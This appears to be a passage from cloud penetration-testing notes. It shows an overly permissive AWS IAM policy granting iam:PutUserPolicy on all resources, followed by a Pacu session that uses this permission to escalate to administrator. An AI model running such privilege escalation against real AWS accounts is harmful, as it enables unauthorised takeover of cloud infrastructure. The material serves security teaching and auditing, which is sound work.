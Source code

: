 #### If a user can attach policy to any users, it could be privileged one

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
        "Effect": "Allow",
        "Action": "iam:PutUserPolicy",
        "Resource": "*"
        }
    ]
}
```

#### Metasploit for AWS: pacu

[source](https://github.com/RhinoSecurityLabs/pacu)

```
root@allevil:~/pacu# ./cli.py
Pacu (jmerckle-falsimentis:No Keys Set) > import_keys jmerckle
Pacu (jmerckle-falsimentis:imported-jmerckle) > run iam__enum_permissions
Running module iam__enum_permissions...
Pacu (jmerckle-falsimentis:imported-jmerckle) > run iam__privesc_scan
Running module iam__privesc_scan...
[iam__privesc_scan] Escalation methods for current user:
[iam__privesc_scan] CONFIRMED: PutUserPolicy
[iam__privesc_scan] Attempting confirmed privilege escalation methods...
[iam__privesc_scan] Successfully added an inline policy named dnr9s7e846!
You should now have administrator permissions.
```